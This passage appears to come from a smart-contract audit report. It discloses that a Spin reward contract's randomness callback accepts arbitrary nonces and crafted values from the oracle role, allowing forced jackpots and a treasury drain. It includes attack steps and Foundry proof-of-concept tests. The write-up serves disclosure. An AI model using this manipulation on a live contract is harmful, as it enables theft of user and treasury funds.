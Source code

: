 ### Attack Vector
1. **Oracle Compromise**: Attacker gains SUPRA_ROLE through various means
2. **Nonce Manipulation**: Use arbitrary nonce values (no validation exists)
3. **RNG Crafting**: Set `rngList[0]` to guarantee desired probability range
4. **Reward Manipulation**: Force specific outcomes (jackpot, Plume tokens, etc.)
5. **Systematic Drain**: Repeat process to systematically extract treasury funds

### Vulnerable Code Paths
```solidity
// No nonce tracking or validation
mapping(uint256 => bool) public usedNonces; // ❌ Does not exist
mapping(address => uint256) public pendingNonces; // ❌ Does not exist

function handleRandomness(uint256 nonce, uint256[] memory rngList) external onlyRole(SUPRA_ROLE) {
    // ❌ Missing validations:
    // require(pendingNonces[user] == nonce, "Invalid nonce");
    // require(!usedNonces[nonce], "Nonce already used");
    
    uint256 probability = rngList[0] % 1_000_000;
    // Attacker controls probability completely
}
```

## Proof of Concept

The comprehensive PoC demonstrates multiple exploitation vectors:

### Core Exploitation
```solidity
function testPoCHighSpinWeakAccessControl() public {
    // Setup malicious oracle with SUPRA_ROLE
    vm.startPrank(maliciousOracle);
    
    // User starts legitimate spin
    vm.startPrank(user);
    spin.startSpin{value: spinPrice}(); // Pays legitimate fee
    vm.stopPrank();
    
    // Malicious oracle manipulates outcome
    vm.startPrank(maliciousOracle);
    uint256[] memory maliciousRng = new uint256[](1);
    maliciousRng[0] = 100_000; // Crafted for Plume token reward
    
    // Use arbitrary nonce - no validation exists
    spin.handleRandomness(123, maliciousRng);
    
    // Result: Guaranteed Plume token reward + ETH payout
}
```

### Nonce Validation Failure
```solidity
function testNonceValidationFailure() public {
    // User starts spin with nonce 456
    vm.mockCall(oracle, generateRequestSig, abi.encode(uint256(456)));
    spin.startSpin{value: spinPrice}();
    
    // Oracle uses wrong nonce 999 - should fail but succeeds
    uint256[] memory rng = new uint256[](1);
    rng[0] = 100_000;
    
    spin.handleRandomness(999, rng); // ❌ Wrong nonce accepted
    // Vulnerability: No nonce validation exists
```